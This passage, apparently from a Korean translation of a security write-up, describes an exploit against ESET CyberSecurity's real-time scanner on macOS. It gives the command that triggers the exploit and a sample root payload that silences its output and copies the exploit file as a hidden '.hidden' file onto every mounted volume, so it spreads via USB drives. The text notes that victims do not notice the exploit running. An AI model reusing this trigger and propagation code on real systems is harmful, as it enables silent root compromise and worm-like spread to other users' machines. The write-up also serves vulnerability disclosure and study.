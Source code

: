 Thu Jun 18 21:57:48 PDT 2015
uid=501(macuser) gid=20(staff) groups=20(staff),401(com.apple.sharepoint.group.1),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),33(_appstore),100(_lpoperator),204(_developer),398(com.apple.access_screensharing),399(com.apple.access_ssh)
{% endhighlight %}

라이브 시스템을 대상으로 익스플로잇을 실험해보는 제일 쉬운방법은 실시간 검사기능을 활성화하고 파일을 cat으로 오픈하는 것이다.

{% highlight bash %}
$ cat esetemu.bin > /dev/null
{% endhighlight %}

만약 익스플로잇이 성공하면, payload.sh가 루트권한으로 실행되었을 것이다. 주의할점은 stdout이나 stderr를 이 모드에서는 볼 수 없기 때문에 만약 원한다면 다른파일로 출력결과를 리다이렉트 시켜야한다. 만약 익스플로잇이 제대로 동작을 한다면, 이메일 첨부파일이나, 브라우저 다운로드, 웹앱 업로드 등으로 테스트 가능하다.

ESET 데몬은 종료처리를 눈에띄지않게 하기때문에 사용자는 익스플로잇이 실행되었는지 알 수가 없다.

### 페이로드 예제(Sample Payload)

####USB & Removable Disk 익스플로잇

익스플로잇을 .hidden이라고 명명하고 마운트된 볼륨의 루트 디렉토리에 위치시키면(예. /Volumes/MyDrive/.hidden), 디바이스가 삽입될 경우 자동으로 실행된다. ESET CyberSecurity Pro6은 기본설정에서 USB/CD-ROM/DVD 장치를 입력할 경우 알림창을 띄우지만, 어떤 옵션을 선택하더라도(또는 아무 옵션을 선택하지 않더라도) 익스플로잇은 성공적으로 실행된다.

아래와 같이 다른 마운트된 볼륨으로 전파를 시킬 수 있다.

{% highlight bash %}
$ cat payload.sh 
#!/bin/sh
#
# This is the payload code run as root in the context of esets_daemon after
# successful exploitation.
#
# This silly example demonstrates simple propagation.
#

# Discard output
exec &> /dev/null

# Do something malicious.
/Applications/Calculator.app/Contents/MacOS/Calculator &

# Is there an exploit on a Volume?
name="$(find /Volumes -type f -depth 2 -name .hidden -size 79911c | head -n 1)"

# Yes, propagate to all other disks.
test -f "${name}" && find /Volumes -type d                          \
                                   -depth 1                         \
                                   -exec cp -f -- "${name}" {} \;   \
                                   -exec sleep 1 \;
{% endhighlight %}

